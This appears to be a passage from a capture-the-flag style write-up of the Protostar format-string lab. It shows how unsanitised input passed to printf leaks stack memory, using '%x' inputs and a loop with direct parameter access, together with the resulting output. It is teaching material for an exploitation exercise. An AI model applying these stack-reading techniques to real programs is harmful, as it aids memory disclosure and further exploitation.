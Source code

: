 The issue is, the input is passed directly to the format string. This is a text
book example of a format string vulnerability. Let's see what happens if we
enter the string ```%x.%x.%x.%x```.

```sh
user@protostar:/tmp$ ./fmt-b
%x.%x.%x.%x
bffff7ac.3f.a.1
```

So what's going on here? Why did it output data if no data was passed via
varargs?

Well, in the format string we told it to expect 4 integers, and that we would
like them to be output in hexadecimal. Thus, it took the 4 integers from the
location in which they should be located: the stack.

Here we examined 16 bytes of the stack. Specifically, values located at ESP,
ESP+4, ESP+8, ESP+12 at that given time.

Let's write a small script to further visualise this. We'll make use of direct
parameter access to display each byte one at a time (ESP, ESP+4, ESP+8, ...).
We'll begin our input with four A's (hex value 0x41) so we can easily identify
our format buffer on the stack.

```sh
user@vulnerable:/tmp$ for i in {1..35}; do echo "AAAA." "%$i\$x" | ./fmt-b; done
AAAA.bffff7ac
AAAA.3f
AAAA.a
AAAA.1
AAAA.0
AAAA.bffff7ac
AAAA.45454545
AAAA.0
AAAA.0
AAAA.bffff7f8
AAAA.8048478
AAAA.bffff7ac
AAAA.40
AAAA.b7fd8420
AAAA.b7f0186e
AAAA.b7fd7ff4
AAAA.b7ec6165
AAAA.bffff7b8
AAAA.41414141
AAAA.3032252e
AAAA.a7824
AAAA.bffff7c8
AAAA.8048314
AAAA.b7ff1040
AAAA.804962c
AAAA.bffff7f8
AAAA.80484a9
AAAA.b7fd8304
AAAA.b7fd7ff4
AAAA.8048490
AAAA.bffff7f8
AAAA.b7ec6365
AAAA.b7ff1040
AAAA.804849bprotostar
AAAA.2a
```
